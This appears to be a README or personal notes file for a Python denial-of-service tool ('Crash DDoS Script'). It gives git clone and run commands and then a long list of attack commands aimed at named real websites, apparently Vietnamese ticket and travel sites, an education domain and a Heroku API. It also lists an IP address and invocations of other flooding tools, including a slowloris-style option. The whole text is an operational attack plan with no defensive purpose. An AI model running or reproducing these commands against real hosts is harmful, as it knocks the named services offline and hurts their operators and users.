 - Crash DDoS Script - Python 3
```
git clone https://github.com/lehongphuong/python-ddos.git
cd python-ddos
chmod +x crash.py

python3 crash.py www.site.com port 80

python3 crash.py www.site.com 80
Default port 80 - site www not http
```

https://www.phongvetaulyson.com/
https://phongvesaky.com/
http://olytravel.vn/
https://www.phuotdaolyson.com/
www.vetaulyson.com

python3 crash.py www.vetaulyson.com

python3 crash.py www.phongvetaulyson.com 80
python3 crash.py www.phongvetaulyson.com 443
python3 crash.py phongvesaky.com 443
python3 crash.py olytravel.vn 80
python3 crash.py www.phuotdaolyson.com 80

python3 crash.py phongvesaky.com 80
python3 crash.py phongvecangsaky.com 80
python3 crash.py hce.edu.vn 80 
python3 crash.py www.phongvecangsaky.com 443

python3 crash.py www.vetaulyson.com 443 

python3 crash.py api-datve.herokuapp.com 80 
http://api-datve.herokuapp.com/

python3 crash.py www.abchome.com 80

python3 crash.py tauchinnghia.vn 443


python3 crash.py www.phongvecangsaky.com 8080

python attack.py -c 20 https://www.phongvecangsaky.com/
python attack.py [option] https://www.phongvecangsaky.com/

python3 pyflooder.py phongvecangsaky.com 8080 100000000


python pyddos.py -d www.phongvecangsaky.com -p 80 -T 2000 -Pyslow

103.28.36.94

git clone https://github.com/R00TD4nZ/crash
cd crash
chmod +x crash.py
python3 crash.py www.phongvecangsaky.com 443
